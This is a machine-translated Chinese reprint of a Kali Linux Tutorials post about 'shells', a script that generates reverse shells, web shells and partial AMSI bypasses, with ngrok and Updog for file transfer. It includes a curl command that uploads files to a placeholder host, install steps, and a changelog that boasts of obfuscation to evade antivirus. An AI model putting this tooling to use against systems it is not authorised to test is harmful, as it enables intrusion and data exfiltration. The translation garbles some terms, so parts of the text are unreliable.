








# Shells:生成 Revshells 的小脚本

> 原文：<https://kalilinuxtutorials.com/shells/>

.png)

**shell**是一个快速简单地生成通用 revshells 的脚本。特别是在需要 PowerShell 和 Python revshells 时，这是一个格式正确的 PITA。

## PowerShell revshells

*   在提示符和工作目录上方显示用户名@计算机
*   部分绕过了 AMSI，使得一些事情变得简单了一些
*   TCP 和 UDP
*   Windows Powershell 和 Core Powershell
*   上传和下载文件的功能。(通过 sc0tfree 使用 [Updog](https://github.com/sc0tfree/updog)

## ngok 支持

*   可以从脚本内部启动/停止 ngrok
*   有效负载将使用 ngrok 地址生成

## 更新支持

*   您可以从脚本内部启动/停止 Updog
*   PowerShell revshells 嵌入了上传/下载功能
*   使用 curl 从 nix 上传:`curl -F path="absolute path for Updog-folder" -F file=filename http://UpdogIP/upload`

### 安装外壳

git 克隆 https://github.com/4ndr34z/shells
CD 壳
。/install.sh

## 截图

## **YouTube 视频**

[https://www.youtube.com/embed/HDrzqiyKQtA?feature=oembed](https://www.youtube.com/embed/HDrzqiyKQtA?feature=oembed)

### 版本 1.4.8

*   有时候少即是多。移除 TCP/UDP PowerShell rev shell 上的混淆，因为它实际上触发 AV 的次数比它绕过的次数多，并且有效负载变得非常大🙂还在用随机化。

### 版本 1.4.6

*   添加了 web shell(ASPX、PHP、JSP)

### 版本 1.4.5

*   为 Windows 32 和 64 位添加了 2 个 c++ revshell 二进制文件。

### 版本 1.4.4

*   修正了启动/停止更新的处理

### 版本 1.4.3

*   增加了更新支持
*   添加了 Netcat 二进制文件。
*   Powershell:创建了上传/下载功能(上传需要 Updog 来接收文件)
*   添加了有关运行 ngrok 和 Updog 的更多信息。

### 版本 1.4.2

*   PowerShell:增加了一个新的“迷你 AMSI 旁路”。(这是一个部分旁路)基于马特 Graebers 反射方法
*   PowerShell:在 Powershell reverseshell 中增加了“上传”功能

### 版本 1.4.1

*   移除 AMSI。测试不够🙂

### 1.4 版本

*   为 powershell 有效负载添加了 AMSI 旁路

### 版本 1.3.9

*   修正了设置端口时的错误
*   将默认端口更改为 443
*   PowerShell:更加模糊

### 版本 1.3.8

*   PowerShell:对 UDP 负载的微小更改

### 版本 1.3.7

*   在 macOS 上只使用原生 nc，因为在 homebrew 上的不能在输入 UDP 上工作
*   PowerShell:添加了 UDP 有效负载

### 版本 1.3.6

*   PowerShell:增加了更多有效负载

### 版本 1.3.5

*   PowerShell:为有效负载添加了一些随机化和模糊处理

### 版本 1.3.4

*   PowerShell:在有效负载中使用 UTF8 编码

### 版本 1.3.3

*   戈朗补充道

### 版本 1.3.2

*   添加了 OpenSSL

### 版本 1.3.1

*   修正了 Python revshell 中的 bug
*   添加 awk
*   添加了 Bash UDP

### 版本 1.3

*   添加了 Windows Python revshells

### 版本 1.2.9

*   添加了一个 ngrok 运行状态

### 版本 1.2.8

*   如果没有安装，隐藏 ngrok 选项

### 版本 1.2.7

*   修正了安装选项:不做默认选项时，按下回车键没有作出选择

### 版本 1.2.6

*   增加了对 ngrok 的支持。

### 版本 1.2.4

*   添加了安装脚本
*   添加了用于检查和安装缺失依赖项的安装选项

### 版本 1.2.3

*   添加了几个 PHP 外壳

### 版本 1.2.2

*   为 Ruby、Perl、Telnet 和 zsh 添加了 shells

### 版本 1.2.1

*   在 macOS 上使用 pbcopy 将副本添加到剪贴板
*   添加了关于监听 netcat 的信息，因为 macOS 版本不显示该信息

### 版本 1.2

*   增加了循环 netcat 外壳。每 10 秒回一次电话。万一你失去了你的壳
*   增加了 netcat GNU netcat 0.7.0 自制程序在 macOS 上运行时的检查

### 版本 1.1

*   增加了对 macOS 的支持

[Click Here To Download](https://github.com/4ndr34z/shells/)